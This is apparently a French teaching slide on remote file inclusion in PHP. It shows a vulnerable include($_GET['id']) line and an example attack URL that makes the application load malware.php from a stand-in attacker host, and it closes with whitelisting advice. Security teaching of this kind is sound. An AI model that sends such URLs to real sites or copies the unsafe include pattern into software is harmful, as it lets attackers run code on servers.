

# Les inJECTions de fichiers
https://www.example.org/fiche_produit.php?id=article5
comprend l’instruction php : include( $_GET[’id’] . ’.php’);
pour stocker chaque description de produit dans un fichier séparé.
Un attaquant peut alors donner à la variable id la valeur http://pirate.siteperso.com/malware
après encodage URL, donc :
https://www.example.org/fiche_produit.php? id=http://pirate.siteperso.com/malware.php
Il aura ainsi injecté le fichier http://pirate.siteperso.com/malware.php dans le code de l’application.
Il faut recourir au fonctionnement par liste blanche ou à un traitement rigoureux des données externes à chaque fois qu’elles sont employées.